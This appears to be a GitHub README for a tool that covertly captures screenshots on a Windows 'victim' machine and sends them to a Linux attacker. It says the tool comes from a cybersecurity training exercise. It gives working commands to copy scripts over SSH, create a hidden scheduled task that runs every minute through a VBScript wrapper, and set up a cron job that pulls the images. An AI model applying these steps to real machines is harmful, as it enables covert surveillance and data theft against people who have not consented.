 # Screenshot Exfiltration Method

## Description
This project demonstrates a method for exfiltrating screenshots from a Windows machine to a Linux attacker machine. It involves using PowerShell to take screenshots, VBScript to run the PowerShell script stealthily, creating a scheduled task on the victim machine to run the VBScript at regular intervals, and a shell script to automate the download on the attacker's machine.

<p align="center">
  <img src="https://github.com/LukeWait/screenshot-exfiltration/raw/main/images/screenshot-exfiltration-overview.png" alt="Overview Screenshot" width="650">
</p>

## Table of Contents
- [Files](#files)
- [Usage](#usage)
- [License](#license)
- [Acknowledgments](#acknowledgments)
- [Source Code](#source-code)
- [Dependencies](#dependencies)

## Files
- `screenshot.ps1`: PowerShell script to take screenshots.
- `hide_ps.vbs`: VBScript to run the PowerShell script stealthily.
- `screenshot_dl.sh`: Shell script for the attacker to automate the download of screenshots.

## Usage
### Prepare the Scripts
Before moving the scripts to the victim machine, you will need to modify the PATH's defined in the scripts.

1. **Edit the PowerShell Script**: Open `screenshot.ps1` with a text editor and change the `$saveLocation` path to the location where you want to save the screenshots. 
    - For the exfiltration process to proceed, you will need to either save them directly to a web server such as Apache (`/var/www/html`), or alternatively, you can save them to another location and create a symbolic link on the server. If there is no web server on the network or there is but you don't have access to it, you could instead start one directly on the victim machine.
    - The script doesn't use a unique identifier like a timestamp for the saved screenshots, therefore a new screenshot will overwrite the previously saved one. This is by design as it simplifies managing the directory that the screenshots are saved to, as they won't accumulate over time. Instead, we will exfiltrate them with the same time interval used to save, ensuring that we get screenshots before they are replaced.

2. **Edit the VBScript**: Open `hide_ps.vbs` with a text editor and change the `<PATH-TO>` to the location that the `screenshot.ps1` will be moved to on the victim machine.

### Setting Up on Victim Machine (Windows)
With the scripts prepared, move them to the victim machine and create a scheduled task to execute the taking of screenshots every minute. This Screenshot Exfiltration Method assumes you have access to the victim machine, which could be through a variety of methods/protocols, and includes any passwords required to make the connection. In this example, I'm using SSH.

1. **Transfer the Scripts**: On the attack machine, enter the following commands from the directory where you saved the scripts to copy them to the victim:
    ```sh
    scp hide_ps.vbs <USERNAME>@<VICTIM-IP>:/C:/<PATH-TO>
    scp screenshot.ps1 <USERNAME>@<VICTIM-IP>:/C:/<PATH-TO>
    ```
    - Change `<PATH-TO>` to the desired locations for the scripts. They can be placed in different locations if you wish, however, `screenshot.ps1` will need to be moved to the location you defined in the `hide_ps.vbs` file. 

2. **Access Victim Machine Directly**: To set up a scheduled task you will need access to the victim machine's command prompt. You will also need to ensure that the user you are connecting as has adequate permission to create scheduled tasks:
    ```sh
    ssh <USERNAME>@<VICTIM-IP>
    ```

3. **Create the Scheduled Task**: With the SSH connection established, use the following command to set up a scheduled task on the victim machine to run the `.vbs` script which will proxy the `.ps1` script every 1 minute:
    ```sh
    schtasks /create /tn "<NAME-THE-TASK>" /tr "wscript.exe C:\<PATH-TO>\hide_ps.vbs" /sc minute /mo 1
    ```
    - Ensure the `<PATH-TO>` aligns with the location where you placed the `hide_ps.vbs` file.

4. **Exit Remote Access**: You can now exit the SSH connection as the victim machine is now set up to take screenshots at regular intervals and save them to the location defined in the `screenshot.ps1` file. If this is a web server, you can proceed to exfiltrate them via the method provided.

### Exfiltrate on Attack Machine (Linux)
This process will set up automated retrieval of the screenshots. The provided script will name and timestamp them for easy identification.

1. **Prepare the Shell Script**: Ensure `screenshot_dl.sh` is executable:
    ```sh
    chmod +x screenshot_dl.sh
    ```

2. **Edit the Shell Script**: Open the `screenshot_dl.sh` script with a text editor and change the following sections:
    - `<PATH-TO-SCREENSHOTS-DIRECTORY>`: Specify a directory to save the screenshots.
    - `<NAME-OF-HOST>`: Specify the name of the host from which the screenshots were taken.
    - `<URL-OF-SCREENSHOT-FILE>`: Reflect the URL of the saved screenshot file (e.g., `https://<WEB-SERVER-IP>/<PATH-TO>/<FILE-NAME>.png`).
    
3. **Automate the Shell Script**: Use the time-based job scheduler `cron` to create a job to execute the script every 1 minute. Open the crontab file and add the following line to the end of the file before save/exit:
    ```sh
    crontab -e
    * * * * * ~/screenshot_dl.sh
    ```

4. **Verify Screenshots**: This completes the setup. Check the save directory defined in the `screenshots_dl.sh` file after a few minutes to see the screenshots coming in with appropriate timestamps.

## License
This project is licensed under the MIT License. See the LICENSE file for details.

## Acknowledgments
This project was developed as part of a cybersecurity training exercise.

Credit to CSch on FAQforge for the .vbs script: [How to Execute PowerShell Scripts Without Pop-Up Window](https://www.faqforge.com/windows/how-to-execute-powershell-scripts-without-pop-up-window/)

## Source Code
The source code for this project can be found in the GitHub repository: [https://github.com/LukeWait/screenshot-exfiltration](https://www.github.com/LukeWait/screenshot-exfiltration).


## Dependencies
Ensure you have:
- Network access to victim machine.
- Remote access tools like SSH for transferring and setting up scripts.
- Credentials of user with permissions to create scheduled tasks and execute scripts.
- Web server access or the ability to set up a web server on the victim machine for hosting screenshots.
